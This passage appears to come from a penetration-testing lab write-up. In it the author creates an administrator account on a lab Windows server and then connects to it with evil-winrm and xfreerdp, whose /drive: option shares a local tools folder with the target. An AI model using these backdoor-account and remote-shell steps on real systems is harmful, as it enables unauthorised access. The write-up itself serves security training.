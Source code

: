 Since we know that port 3389 and 5985 (winrm) is open, we can create a administrator account on the Windows Server and add ourselves to the remote access group:

![Untitled](Github%20ser%20a938a/Untitled%2015.png)

- As you can see, I did just that.

![Untitled](Github%20ser%20a938a/Untitled%2016.png)

---

### 3.1 Connecting to our new account with evil-winrm

Command used:

```bash
evil-winrm -u Incendium -p pwned123 -i 10.200.57.150
```

Results:

![Untitled](Github%20ser%20a938a/Untitled%2017.png)

- As you can see, we are now connected to the new account made with a WinRM shell.

### 3.2 Connecting to the GUI via xfreerdp

Command used:

```bash
xfreerdp /v:10.200.57.150 /u:Incendium /p:'pwned123' /drive:/usr/share/windows-resources,share
```

- Note the /drive: parameter
    - We use this to connect a local folder from our attack machine as a share on the target machine. This is very useful because, we don’t need to install any tools on the Windows server now.
    